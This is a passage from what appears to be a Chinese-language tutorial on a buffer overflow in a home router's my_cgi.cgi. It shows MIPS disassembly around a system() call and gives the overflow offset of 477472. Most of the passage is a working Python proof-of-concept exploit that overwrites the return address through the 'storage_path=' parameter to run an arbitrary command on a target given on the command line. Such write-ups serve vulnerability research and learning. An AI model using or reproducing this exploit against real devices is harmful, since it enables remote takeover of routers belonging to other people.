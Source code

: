 	loc_405B1C:

	la $t9, system

	li $s1, 0x440000

	jalr $t9 ; system

	addiu $a0, $sp, 0x78+var_50 # command

	lw $gp, 0x78+var_60($sp)

	nop

然后在通过动态调试判断出溢出点的位置在477472后就是覆盖返回地址了。

最后写poc，写的时候要注意一定要以“storage_path=”开头。

	#!/usr/bin/env python 
	# # 
	import sys 
	import urllib2 
	try: 
		target = sys.argv[1] 
		command = sys.argv[2] 
	except: 
		print "Usage: %s <target> <command>" % sys.argv[0] 
		sys.exit(1) 
	url = "http://%s/my_cgi.cgi" % target 
	buf = "storage_path=" 
	buf += "D" * 477472 
	buf += "\x00\x40\x5B\x1C"     #覆盖返回地址ra寄存器
	buf += "E" * 0x28 
	buf += command 
	buf += "\x00" 
	req = urllib2.Request(url, buf) 
	print urllib2.urlopen(req).read()


Poc可以在将路由器连接至电脑后进行测试，这里没有工具，就不测试了。

## **参考链接**

《家用路由器0day漏洞挖掘技术》

